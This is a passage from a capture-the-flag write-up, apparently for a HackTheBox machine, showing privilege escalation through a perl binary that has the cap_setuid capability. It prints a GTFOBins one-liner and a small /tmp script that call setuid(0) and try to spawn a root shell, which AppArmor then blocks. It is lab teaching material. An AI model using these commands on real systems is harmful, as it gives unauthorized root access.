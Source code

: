 

But since only root can write to `/opt/web_backups`, it's using
`POSIX::setuid(0)` to run as root.

To do this, it must either be SUID or have a capability. It has the
`setuid` capability:



    david@nunchucks:/opt$ which perl
    /usr/bin/perl
    david@nunchucks:/opt$ getcap /usr/bin/perl
    /usr/bin/perl = cap_setuid+ep



### AppArmor

#### GTFOBins Failure

There's an entry for this on
[GTFObins](https://gtfobins.github.io/gtfobins/perl/#capabilities). I'll
just use the one liner from there:



    david@nunchucks:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
    david@nunchucks:~$ 



For some reason it doesn't return a root shell.

If I try `whoami`, it does return root:



    david@nunchucks:/etc/apparmor.d$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
    root



If I create a simple script in `/tmp`:



    #!/usr/bin/perl
    use POSIX qw(strftime);
    use POSIX qw(setuid);
    POSIX::setuid(0);

    exec "/bin/sh"



When I try to pass it to `perl`, it gets an accessed denied:



    david@nunchucks:/tmp$ perl a.pl 
    Can't open perl script "a.pl": Permission denied



#### AppArmor Config
